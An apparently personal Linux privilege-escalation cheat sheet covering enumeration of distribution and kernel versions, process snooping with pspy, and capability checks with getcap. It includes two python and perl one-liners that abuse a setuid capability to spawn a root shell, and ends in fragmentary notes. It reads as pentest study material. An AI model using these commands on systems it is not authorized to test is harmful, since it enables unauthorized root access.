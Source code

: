 ### Linux version

##### Distribution 

- cat [/etc/issue](https://man7.org/linux/man-pages/man5/issue.5.html): text file which contains a message or system identification to be printed before the login prompt.
- cat /etc/*-release
- cat [/etc/lsb-release](https://linux.die.net/man/1/lsb_release): contain the LSB_VERSION field. The value of the field should be a colon separated list of supported module versions indicating the LSB specification modules to which the installation is compliant. 
- cat /etc/redhat-release
- [lsb_release](https://linux.die.net/man/1/lsb_release) -all: Prints certain LSB (Linux Standard Base) and Distribution information

##### Kernel Version

- at [/proc/version](https://docs.fedoraproject.org/en-US/Fedora/14/html/Deployment_Guide/s2-proc-version.html): This file specifies the version of the Linux kernel, the version of gcc used to compile the kernel, and the time of kernel compilation.
- [uname -a](https://linux.die.net/man/1/uname): Print all system information
- [uname -mrs](https://linux.die.net/man/1/uname): Print the machine hardware name *m*, kernel release *r* and the kernel-name *s*
- rpm -q kernel: Print the kernel version using the RPM Package Manager
- [dmesg](https://man7.org/linux/man-pages/man1/dmesg.1.html) | grep Linux: Print or control the kernel ring buffer
- ls /boot | grep vmlinuz-: Grep the name the Linux kernel executable within the boot partition

### Linux Process

1. pspy

[pspy](https://github.com/DominicBreuker/pspy#how-it-works) is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. 
It heavily uses the [inotify API](https://man7.org/linux/man-pages/man7/inotify.7.html) provides a mechanism for monitoring filesystem events.
Inotify can be used to monitor individual files, or to monitor directories.


### Linux Capabilities 
1. getcap

The [getcap](https://www.man7.org/linux/man-pages/man8/getcap.8.html) command displays the name and capabilities of each specified file.
To recursively check the capabilities of all files you have access, use the following command **getcap -r / 2>/dev/null**
For instance, you can find Python or Perl that are assigned to root and you can do the following then:
- ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
- ./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'


###### *If you don't know, now you know: [Capabilities](https://linux.die.net/man/7/capabilities)*

Starting with kernel 2.2, Linux divides the privileges traditionally associated with superuser into distinct units, known as *capabilities*, which can be independently enabled and disabled. Capabilities are a per-thread attribute.

Some capabilities to look for are:
- **CAP_DAC_OVERRID**: Bypass file read, write, and execute permission checks.
- **CAP_DAC_READ_SEARCH**: Bypass file read permission checks and directory read and execute permission checks
- **CAP_SETGID**: Make arbitrary manipulations of process GIDs and supplementary GID list
- **CAP_SETUID**: Make arbitrary manipulations of process UIDs

#### Sources:

https://nxnjz.net/2018/08/an-interesting-privilege-escalation-vector-getcap/
https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

##### Temp:

ip addr

-> docker0